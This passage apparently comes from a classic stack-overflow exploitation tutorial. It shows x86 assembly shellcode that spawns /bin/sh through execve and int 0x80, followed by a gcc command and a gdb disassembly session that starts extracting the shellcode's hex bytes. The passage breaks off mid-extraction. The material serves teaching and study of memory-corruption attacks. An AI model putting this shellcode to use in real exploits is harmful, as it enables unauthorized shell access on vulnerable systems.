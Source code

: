 Looks good. To make sure it works correctly we must compile it and run it.
But there is a problem.  Our code modifies itself, but most operating system
mark code pages read-only.  To get around this restriction we must place the
code we wish to execute in the stack or data segment, and transfer control
to it.  To do so we will place our code in a global array in the data
segment.  We need first a hex representation of the binary code. Lets
compile it first, and then use gdb to obtain it.

*shellcodeasm.c*

	void main() {
	__asm__("
        jmp    0x2a                     # 3 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x8(%esi)           # 3 bytes
        movb   $0x0,0x7(%esi)           # 4 bytes
        movl   $0x0,0xc(%esi)           # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x8(%esi),%ecx           # 3 bytes
        leal   0xc(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax               # 5 bytes
        movl   $0x0, %ebx               # 5 bytes
        int    $0x80                    # 2 bytes
        call   -0x2f                    # 5 bytes
        .string \"/bin/sh\"             # 8 bytes
	");
	}
    
`[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c`

	[aleph1]$ gdb shellcodeasm
	GDB is free software and you are welcome to distribute copies of it under certain conditions; type "show copying" to see the conditions.
	There is absolutely no warranty for GDB; type "show warranty" for details.
	GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
	(gdb) disassemble main
	Dump of assembler code for function main:
	0x8000130 <main>:       pushl  %ebp
	0x8000131 <main+1>:     movl   %esp,%ebp
	0x8000133 <main+3>:     jmp    0x800015f <main+47>
	0x8000135 <main+5>:     popl   %esi
	0x8000136 <main+6>:     movl   %esi,0x8(%esi)
	0x8000139 <main+9>:     movb   $0x0,0x7(%esi)
	0x800013d <main+13>:    movl   $0x0,0xc(%esi)
	0x8000144 <main+20>:    movl   $0xb,%eax
	0x8000149 <main+25>:    movl   %esi,%ebx
	0x800014b <main+27>:    leal   0x8(%esi),%ecx
	0x800014e <main+30>:    leal   0xc(%esi),%edx
	0x8000151 <main+33>:    int    $0x80
	0x8000153 <main+35>:    movl   $0x1,%eax
	0x8000158 <main+40>:    movl   $0x0,%ebx
	0x800015d <main+45>:    int    $0x80
	0x800015f <main+47>:    call   0x8000135 <main+5>
	0x8000164 <main+52>:    das
	0x8000165 <main+53>:    boundl 0x6e(%ecx),%ebp
	0x8000168 <main+56>:    das
	0x8000169 <main+57>:    jae    0x80001d3 <__new_exitfn+55>
	0x800016b <main+59>:    addb   %cl,0x55c35dec(%ecx)
	End of assembler dump.
	(gdb) x/bx main+3
	0x8000133 <main+3>:     0xeb
	(gdb)
	0x8000134 <main+4>:     0x2a